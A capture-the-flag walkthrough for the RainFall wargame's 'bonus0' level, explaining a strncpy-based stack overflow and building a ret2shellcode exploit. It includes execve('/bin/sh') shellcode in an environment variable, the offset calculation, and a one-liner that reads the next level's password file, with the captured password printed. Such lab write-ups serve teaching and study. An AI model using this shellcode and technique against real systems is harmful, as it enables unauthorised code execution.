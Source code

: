 # Bonus 0

## Answer
Our C source code generates almost the same assembly code as the original binary. Compile it as follows:
> There is a slight difference as mentioned in the comments of the source code. I assume this is due to us using the wrong type for the buffers in the `pp` function. Nonetheless, it doesn't change the program's behavior
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <string.h>

unsigned short *a = 32;

void p(char *str, char *str2)
{
    char buf[4096];

    puts(str2);
    read(0, buf, 4096);
    *strchr(buf, '\n') = 0;
    strncpy(str, buf, 20);
}

// sub is incorrect by 4 bytes and ebx is not used
void pp(char *str)
{
    char buf[20];
    char buf2[20];

    p(buf2, " - ");
    p(buf, " - ");

    strcpy(str, buf2);

    str[strlen(str)] = *a;

    strcat(str, buf);
}

int main()
{
    char buf[42];

    pp(buf);
    puts(buf);

    return 0;
}
```

Let's focus on the `main` function. It reads input using the `read` function, the null terminator is then added with `strchr` and the string is copied to the `buf` buffer using `strncpy` with a size of 20. However, the `strncpy` function doesn't add a null terminator if the string is longer than the size provided. Therefore, the `str` buffer will not be null terminated.

This will result in `strcpy` copying the `buf2` buffer to the `str` buffer, but it will not stop at the null terminator, since there is none, tt will continue to copy the `buf` buffer to the `str` buffer. Then `strcat` will append the `buf` buffer to the `str` buffer which will allow us to overflow the buffer and overwrite the return address of the `main` function.


Let's first see how many bytes we need to overflow the buffer by analyzing the stack layout of our program:
```bash
(gdb) b *main+38 # Breaking before leave
Breakpoint 1 at 0x80485ca

(gdb) r # Run the program
Starting program: /home/user/bonus0/bonus0
 -

 -



Breakpoint 1, 0x080485ca in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff738       0xbffff738
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 72 bytes:
```
0xbffff738 - 0xbffff6f0 = 48 (72 in decimal)
```

Furthermore, we can see that our buffer is located at `0x16(%esp),%eax`. Since there is 72 bytes for the stack, our buffer will therefore requiere 50 bytes (72 - 22) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 54 bytes (50 + 4).

Anything written beyond those 54 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Since we now know that 54 bytes are required, let's see how many we can write:
```bash
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Segmentation fault (core dumped)
```

We're obviously limited to 20 bytes per buffer, but as we can see, the 20 bytes of B's are written after the 20 bytes of A's. There is also a space added between the two buffer and finally another 20 bytes of A's. So it's possible to write 61 bytes in total which is more than enough to overwrite the return address of the `main` function.

Since the bytes of `buf` are written after the bytes of `buf2`, we have to be slightly tactical to figure out where we need to write our address:
```
20 bytes of buf2 + 19 bytes of buf + 1 byte of space + 19 bytes of buf

54 - 59 = -5 bytes
```

So we need to write our address 5 bytes before the end of the `buf` buffer. Such as:
```
buf2 = "\x90" * 20 (20 bytes)
buf = "\x90" * 14 + Address (4 bytes) + "\x90" (19 bytes)

buf2 + buf + space + buf (only 14 first bytes) 
20 + 19 + 1 + 14 = 54 bytes
```

Since a ret2libc would requiere 12 bytes (4 bytes for the address of `system`, 4 bytes for the address of `exit` and 4 bytes for the address of "/bin/sh"), we're just going to use a ret2shellcode.

Check the [level1's walkthrough](../level1/walkthrough.md#ret2shellcode) for an explanation of the ret2shellcode technique.

We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus0@RainFall:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus0@RainFall:/tmp$ ./a.out
0xbffff848
```

Alright, let's craft our payload:
```
arg1 = padding of 20 bytes
arg2 = padding of 14 bytes + address of the shellcode in the env + padding of 1 byte

arg1 = "\x90" * 20
arg2 = "\x90" * 14 + "\xbf\xff\xf8\x48" + "\x90"
```

Let's run it:
```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 20'; python -c 'print "\x90" * 14 + "\xbf\xff\xf8\x48"[::-1] + "\x90"'; echo 'cat /home/user/bonus1/.pass') | ./bonus0
 - 
 - 
����������������������������������H���� ��������������H����
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

We are now bonus1! Let's move on to the next level.